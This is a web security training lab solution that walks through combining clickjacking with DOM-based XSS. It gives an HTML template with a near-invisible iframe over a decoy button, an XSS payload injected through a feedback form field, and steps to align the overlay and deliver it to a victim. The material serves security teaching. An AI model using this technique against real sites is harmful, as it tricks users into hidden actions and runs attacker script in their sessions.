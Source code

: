 

 



## Lab: Exploiting clickjacking vulnerability to trigger DOM-based XSS

### Solution

1.  Go to the exploit server and paste the following HTML template into the **Body** section:
    
    ```html
    <style>
        iframe { 
            position:relative;
            width:$width_value;
            height: $height_value;
            opacity: $opacity;
            z-index: 2;
        }
        div {
            position:absolute;
            top:$top_value;
            left:$side_value;
            z-index: 1;
        } 
    </style>
    <div>Test me</div>
    <iframe src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&[[email protected]](/cdn-cgi/l/email-protection)&subject=test&message=test#feedbackResult"></iframe>
    ```
2.  Make the following adjustments to the template:
    *   Replace `YOUR-LAB-ID` in the iframe `src` attribute with your unique lab ID so that the URL points to the target website's "Submit feedback" page.
    *   Substitute suitable pixel values for the $height\_value and $width\_value variables of the iframe (we suggest 700px and 500px respectively).
    *   Substitute suitable pixel values for the $top\_value and $side\_value variables of the decoy web content so that the "Submit feedback" button and the "Test me" decoy action align (we suggest 610px and 80px respectively).
    *   Set the opacity value `$opacity` to ensure that the target iframe is transparent. Initially, use an opacity of 0.1 so that you can align the iframe actions and adjust the position values as necessary. For the submitted attack a value of 0.0001 will work.
3.  Click **Store** and then **View exploit**.
4.  Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
5.  Click **Test me**. The print dialog should open.
6.  Change "Test me" to "Click me" and click **Store** on the exploit server.
7.  Now click on **Deliver exploit to victim** and the lab should be solved.

---
